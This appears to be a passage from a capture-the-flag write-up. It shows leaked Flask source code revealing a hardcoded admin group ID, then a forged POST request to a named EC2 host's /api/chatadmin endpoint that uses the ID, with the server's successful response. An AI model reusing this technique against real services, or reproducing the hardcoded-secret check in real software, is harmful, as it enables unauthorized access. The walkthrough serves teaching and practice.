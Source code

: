 ```
@app.route('/api/login', methods=['POST'])
def login():    
	username = request.json.get('username')
	password = request.json.get('password')
	if username is None or password is None:
		abort(400) # missing arguments    
	if User.query.filter_by(username=username).first() is None:
	    abort(400) # user doesn't exist
```

If we also check out the endpoint for looking for admin, we see this function in the debugger output. `http://ec2-54-85-21-142.compute-1.amazonaws.com:6063/api/chatadmin

```
@app.route('/api/chatadmin', methods=['POST'])
def chatAdmin():    
	message = request.json.get('message')    
	groupid = request.json.get('groupid')    
	g = groupid.split(' ')[:3]    
	if str(groupid) != "106610671042110":        
		print "____",groupid, "____"        
		return (jsonify({'resp_msg':'YOU ARE NOT AN ADMIN. GO AWAY'}), 401)
```

**Success!!** So now we know the admin group id.

Using what we've seen from the source code of the app, we can recreate a call to the `/api/chatadmin` api endpoint and forge our request to include the group id we've just learned.

```
POST http://ec2-54-85-21-142.compute-1.amazonaws.com:6063/api/chatadmin HTTP/1.1
Content-Type: application/json
Host: ec2-54-85-21-142.compute-1.amazonaws.com:6063
Content-Length: 77

{
  "message": "security through obscurity",
  "groupid": "106610671042110"
}
```

```
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 238
Server: Werkzeug/0.11.11 Python/2.7.12
Date: Sun, 20 Nov 2016 21:33:00 GMT

{
  "resp_msg": "Ah, you must be searching for phil. While I can't tell you where he is, I can give you some data from our last conversation that may help you find him. https://drive.google.com/file/d/0Bw7N3lAmY5PCVlpvaW9tQUs1MVU/view"
}
```
